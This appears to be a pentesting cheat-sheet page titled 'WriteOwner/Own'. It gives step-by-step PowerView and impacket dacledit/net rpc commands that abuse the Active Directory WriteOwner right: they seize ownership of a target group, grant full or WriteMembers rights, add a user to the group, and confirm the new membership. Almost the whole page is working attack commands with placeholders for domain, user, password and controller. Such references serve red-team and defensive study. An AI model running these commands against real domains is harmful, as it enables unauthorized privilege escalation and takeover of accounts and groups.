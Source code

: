 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["WriteOwner", "active driectory", "ad", "Windows", "own", "dacledit"]
---
```


---
### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Change owner

<div>

```powershell
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <USER>
```

</div>

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

<div>

```bash
git clone https://github.com/fortra/impacket.git
```

```bash
cd impacket
```

```bash
pip3 install .
```

</div>

#### 1. Add domain object

<div>

```bash
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -action write -rights WriteMembers
```

</div>

#### 2. Add group member

<div>

```bash
kinit <USER>
```

```bash
sudo ntpdate -s <DC> && net rpc group addmem <TARGET_GROUP> <USER> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

</div>

#### 3. Check

<div>

```bash
sudo ntpdate -s <DC> && net rpc group members <TARGET_GROUP> -U <USER> --use-kerberos=required -S <DC> --no-pass
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add user to group

<div>

```powershell
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```powershell
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

</div>

#### Check

<div>

```powershell
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```powershell
# Or
net user <USER>
```

```powershell
# Exit current sessions or re-login
whoami /groups
```

</div>

{{< /tabcontent >}}

<br>